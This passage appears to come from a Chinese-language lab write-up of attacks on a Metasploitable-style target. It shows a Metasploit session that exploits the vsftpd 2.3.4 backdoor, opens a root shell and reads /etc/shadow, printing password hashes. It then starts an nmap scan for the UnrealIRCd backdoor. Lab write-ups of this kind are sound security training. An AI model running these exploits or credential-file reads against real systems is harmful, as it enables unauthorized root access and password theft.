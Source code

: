 ```shell
Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.43.38
RHOST => 192.168.43.38
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.43.38:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.43.38:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.43.38:21 - The port used by the backdoor bind listener is already open
[+] 192.168.43.38:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
id
[*] Command shell session 1 opened (192.168.43.98:42447 -> 192.168.43.38:6200 ) at 2022-05-08 04:07:06 -0400

uid=0(root) gid=0(root)
cat /etc/shadow
root:$1$7DSzfpME$3a45316tWZF9TZWi48eub/:19107:0:99999:7:::
...
msfadmin:$1$FKo1UCia$KxgF2WmQNsKY2lC3nPp4n/:19107:0:99999:7:::
...
```

![4.2.2-攻击](https://raw.githubusercontent.com/BIIIANG/pic/main/202205081610572.png)

#### 4.1.3 `UnrealIRC`

- 漏洞扫描：

```shell
[4:12:33] xubiang:~ $ ls /usr/share/nmap/scripts | grep unrealircd
irc-unrealircd-backdoor.nse
[4:12:36] xubiang:~ $ nmap -script irc-unrealircd-backdoor -p 6667,6697 192.168.43.38
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-08 04:13 EDT
Nmap scan report for 192.168.43.38
Host is up (0.069s latency).

PORT     STATE SERVICE
6667/tcp open  irc
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
6697/tcp open  ircs-u
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277

Nmap done: 1 IP address (1 host up) scanned in 21.03 seconds
```
